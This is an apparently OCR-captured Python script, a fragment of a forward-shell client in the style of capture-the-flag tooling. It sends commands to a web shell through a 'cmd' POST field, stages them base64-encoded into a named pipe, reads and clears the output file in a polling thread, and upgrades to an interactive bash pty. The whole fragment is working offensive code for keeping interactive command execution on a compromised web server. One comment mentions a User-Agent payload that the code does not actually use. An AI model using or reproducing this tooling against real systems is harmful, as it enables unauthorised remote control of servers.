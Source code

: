 ```py
        # set up read thread
        print("[*] Setting up read thread")
        self.interval = interval
        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    # Read $session, output text to screen & wipe session
    def ReadThread(self):
        GetOutput = f"/bin/cat {self.stdout}"
        while True:
            result = self.RunRawCmd(GetOutput) #, proxy=None)
            if result:
                print(result)
                ClearOutput = f'echo -n "" > {self.stdout}'
                self.RunRawCmd(ClearOutput)
            time.sleep(self.interval)
        
    # Execute Command.
    def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
        #print(f"Going to run cmd: {cmd}")
        # MODIFY THIS: This is where your payload code goes
        payload = cmd

        if proxy:
            proxies = self.proxies
        else:
            proxies = {}
       
        # MODIFY THIS: Payload in User-Agent because it was used in ShellShock
        data = {'cmd': payload}
        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
            return r.text
        except:
            pass
            
    # Send b64'd command to RunRawCommand
    def WriteCmd(self, cmd):
        b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
        stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
        self.RunRawCmd(stage_cmd)
        time.sleep(self.interval * 1.1)

    def UpgradeShell(self):
        # upgrade shell
        UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
        self.WriteCmd(UpgradeShell)

prompt = "0x4rt3mis> "
S = WebShell()
while True:
    cmd = input(prompt)
    if cmd == "upgrade":
        prompt = ""
        S.UpgradeShell()
    else:
        S.WriteCmd(cmd)
```
